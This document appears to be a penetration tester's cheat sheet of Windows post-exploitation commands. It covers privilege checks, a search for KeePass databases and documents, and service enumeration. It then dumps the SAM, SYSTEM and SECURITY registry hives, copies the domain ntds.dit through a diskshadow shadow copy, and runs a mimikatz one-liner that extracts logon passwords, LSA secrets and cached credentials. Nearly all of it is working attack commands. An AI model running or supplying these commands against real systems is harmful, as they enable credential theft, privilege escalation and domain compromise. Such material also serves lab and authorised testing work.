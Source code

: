 ### Windows Enumeration / Commands


```batch
:: Awareness

whoami
whoami /priv
:: Look for SeImpersonate

dir c:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"
:: Look for nonstandard binaries
## if putty
reg query HKCU\Software\SimonTatham\PuTTY /s

dir "C:\Users"
dir "C:\Users\$user"

powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-CimInstance -Classname win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '$service_name'}

:: Privesc Shenanigans

:: SeImpersonate -> Potato  ## free system
:: Backup:  ## can save registry 
reg save hklm\sam C:\windows\temp\SAM
reg save hklm\system C:\windows\temp\SYSTEM
reg save hklm\security C:\windows\temp\SECURITY


:: if on a domain, need ntds.dit
set context persistent nowriters
add volume c: alias test
create
expose %test% z:

:: Get files to the kali machine
unix2dos $dsh_file

:: on windows target
diskshadow /s $dsh_file
robocopy /b Z:\windows\ntds . ntds.dit


:: mimikatz
:: one liner, doesn't work via evil-winrm
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```
